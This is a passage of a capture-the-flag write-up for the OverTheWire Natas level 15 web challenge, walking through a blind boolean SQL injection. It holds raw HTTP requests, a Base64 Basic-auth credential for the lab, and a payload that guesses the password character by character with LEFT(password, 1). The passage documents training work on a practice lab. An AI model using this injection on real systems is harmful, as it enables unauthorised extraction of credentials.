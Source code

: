 ```php
?>

<form action="index.php" method="POST">
Username: <input name="username"><br>
<input type="submit" value="Check existence" />
</form>
<? } ?>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html> 
```

This time around, nothing is returned - just a yes/no if the user exists (or, really, if our query results in any result). First, we'll guess that the username is natas16 using a stripped-down HTTP request that will be the basis of our later attack.

```
POST /index.php?debug HTTP/1.1
Host: natas15.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==
Content-Type: application/x-www-form-urlencoded
Content-Length: 16

username=natas16
```

```
<h1>natas15</h1>
<div id="content">
Executing query: SELECT * from users where username="natas16"<br>This user exists.<br><div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
```

If we inject a statement that checks the username and only the first character of the password, we can loop through all letters and numbers to determine it. If successful, this can be expanded for each character position until we have the full password.

First, a POC in Burp Intruder. The request is as follows, where X is the character to iterate.

```
POST /index.php?debug HTTP/1.1
Host: natas15.natas.labs.overthewire.org
Authorization: Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg==
Content-Type: application/x-www-form-urlencoded
Content-Length: 49

username=natas16" and LEFT(password, 1)="X
```
